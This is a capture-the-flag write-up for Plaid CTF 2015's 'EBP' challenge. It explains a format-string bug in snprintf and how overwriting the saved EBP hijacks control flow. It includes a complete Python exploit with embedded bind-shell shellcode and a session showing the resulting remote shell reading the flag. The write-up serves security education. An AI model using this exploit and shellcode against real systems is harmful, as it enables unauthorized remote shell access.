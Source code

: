 # Plaid CTF 2015: EBP

**Category:** EBP
**Points:** 160
**Description:** 

>Pwnable (160 pts)
>nc 52.6.64.173 4545 
>
>Download: [%p%o%o%p](challenge/ebp.elf).

## Write-up

We start by first checking the binary:

>```bash
>$ file ebp
>ebp: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf994804ecd68699809b56d85dbba1038de9f74b0, not stripped
>```

A stripped 32-bit ELF binary. Let's see what checksec has to say:

>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : disabled
>PIE       : disabled
>RELRO     : Partial
>```

Ok, no protections to worry about. Let's load EBP into IDA and decompile it:

>```c
>int __cdecl main(int argc, const char **argv, const char **envp)
>{
>  int result; // eax@3
>
>  while ( 1 )
>  {
>    result = (int)fgets(buf, 1024, stdin);
>    if ( !result )
>      break;
>    echo();
>  }
>  return result;
>}
>
>int echo()
>{
>  make_response();
>  puts(response);
>  return fflush(stdout);
>}
>
>int make_response()
>{
>  return snprintf(response, 0x400u, buf);
>}
>```

We can spot a very straight-forward format string bug in make_response (where we control the format specifier in buf). Let's first try to dump the stack with it:

>%x.%x.%x.%x.%x.
>b76147a0.b7754ff4.0.bfa14cb8.804852c

Given that buf is a variable stored in the .bss section, no matter how far into the stack we dig, we won't encounter our own buffer so we won't get the usual write-anything/anywhere situation. But if we look at our stack dump we can see that the 5th DWORD on the stack is the return address from the call to make_response, indicating the 4th DWORD is the old EBP value. If we can overwrite the old EBP value we know that at the function epilogue handling it will do the following:

>```asm
>leave
>retn
>```

Which allows us to effectively:

>```asm
>mov eip, [old_ebp+4]
>```

So let's say we want to overwrite old EBP with 0x41414141:

>(364931861*2+364931860 + 3) = 0x41414141

We craft the following format string:

>%364931861x.%364931861x.%364931860x.%n

So if we can point old_ebp to 4 bytes before an address holding the address we want to overwrite eip with we hijack control flow. Given that our buf is located in the static .bss section at 0x0804A080 we can overwrite old_ebp with (0x0804A080-4) = 0x0804A07C and use the following string:

>AAAA%44840317x%44840317x%44840318x%n

To overwrite EIP with 0x41414141. Now for the final part we need to put our shellcode in our buffer and overwrite EIP with the address of our shellcode:

>eip_overwrite = (0x0804A080 + n)
>where n is the length of the FMS exploit (36 bytes)
>so eip_overwrite = 0x0804A0A4
>fms exploit: \xA4\xA0\x04\x08%44840317x%44840317x%44840318x%n<shellcode>

Note that we will need to keep our original socket open in order to prevent xinetd (which is running the challenge) from killing the exploited process.

The following dirty [little exploit](solution/ebp_sploit.py) will do the trick:

>```python
>#!/usr/bin/python
>#
># Plaid CTF 2015
># EBP (PWN/160)
>#
># @a: Smoke Leet Everyday
># @u: https://github.com/smokeleeteveryday
>#
>
>from pwn import *
>
>#
># Linux bindshell port 4444
>#
>buf =  ""
>buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
>buf += "\xcd\x80\x5b\x5e\x52\x68\x02\x00\x11\x5c\x6a\x10\x51"
>buf += "\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04"
>buf += "\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f"
>buf += "\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f"
>buf += "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
>
>host = '52.6.64.173'
>#host = '127.0.0.1'
>port = 4545
>
>h = remote(host, port, timeout = None)
>
>print "[*]Sending exploit..."
>exploit = "\xA4\xA0\x04\x08%44840317x%44840317x%44840318x%n" + buf
>h.send(exploit + "\n")
>print "[+]Exploit sent!"
>msg = h.recv(1024)
>print msg
>
>h.close()
>```

Running it gives us:

>```bash
>$ python ebp_sploit.py
+] Opening connection to 52.6.64.173 on port 4545: Done
[*]Sending exploit...
> $ nc 52.6.64.173 4444
> id
> uid=1001(problem) gid=1001(problem) groups=1001(problem)
> ls /home/problem
> ebp
> flag.txt
> cat /home/problem/flag.txt
> who_needs_stack_control_anyway?
>```